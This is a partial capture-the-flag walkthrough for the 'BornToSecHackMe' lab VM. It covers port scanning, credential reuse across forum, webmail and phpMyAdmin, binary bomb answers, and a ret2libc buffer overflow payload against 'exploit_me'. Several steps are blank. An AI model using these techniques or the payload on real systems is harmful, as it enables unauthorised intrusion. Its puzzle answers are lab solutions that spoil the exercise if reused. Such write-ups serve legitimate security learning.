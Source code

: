 # Writeup 1

## Step 1 - Nmap

Scan ports with :
```bash
sudo nmap -sN localhost/24
```
Thats gives us the ip of the vm :
```bash
Nmap scan report for BornToSecHackMe (192.168.1.21)
Host is up (0.0083s latency).
Not shown: 994 closed ports
PORT    STATE         SERVICE
21/tcp  open|filtered ftp
22/tcp  open|filtered ssh
80/tcp  open|filtered http
143/tcp open|filtered imap
443/tcp open|filtered https
993/tcp open|filtered imaps
MAC Address: 08:00:27:C8:08:7C (Oracle VirtualBox virtual NIC)
```

---

## Step 2 - Dirb

We then checked the https://192.168.1.21

We used dirb to test all urls and we found out some interesting ones:
```bash
https://192.168.1.21/forum
https://192.168.1.21/phpmyadmin
https://192.168.1.21/webmail
```

---

## Step 3 - Forum

We checked the logs in the "Probleme login ?" section in the https://192.168.1.21/forum  
Saw user **lmezard** login with password :
```bash
!q\]Ej?*5K5cy*AJ
```
And we logged in on the forum with these logs

---

## Step 4 - Webmail
We got the user mail on the profile and logged in on https://192.168.1.21/webmail with that email and the same password.  
In the mailbox there is a mail with a root user and a password:
```bash
Fg-'kKXBj87E:aJ$
```

---

## Step 5 - Phpmyadmin

Then we logged on https://192.168.1.21/phpmyadmin with root as user and the password as above.  
And we accessed to the data base : in which we clicked on "forum_db" and "mlf2_userdata" to change user_type for user "lmezard" to "2" as it is set for admin user.

-> SQL query, and /templates_c

---

## Step 6 - User www-data


---

## Step 7 - FTP


---

## Step 8 - Laurie / The Bomb

```
PHASE 1: Public speaking is very easy.
PHASE 2: 1 2 6 24 120 720
PHASE 3: 1 b 214
PHASE 4: 9
PHASE 5: opekmq / opekma
PHASE 6: 4 2 6 3 1 5

Publicspeakingisveryeasy.126241207201b2149opekmq426315
```

This password doesn't work and we need to change `n-1` with `n-2`, so the password is `Publicspeakingisveryeasy.126241207201b2149opekmq426135`

---

## Step 9 - Thor / Turtle




---

## Step 10 - Zaz / Exploit-me


https://wiremask.eu/tools/buffer-overflow-pattern-generator/?

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) find 0xb7e6b060, +9999999, "/bin/sh"
0xb7f8cc58

```

```
zaz@BornToSecHackMe:~$ python -c 'print "A"*140 + "\x60\xb0\xe6\xb7" + "AAAA" + "\x58\xcc\xf8\xb7"' > test
zaz@BornToSecHackMe:~$ ./exploit_me $(cat test)
```
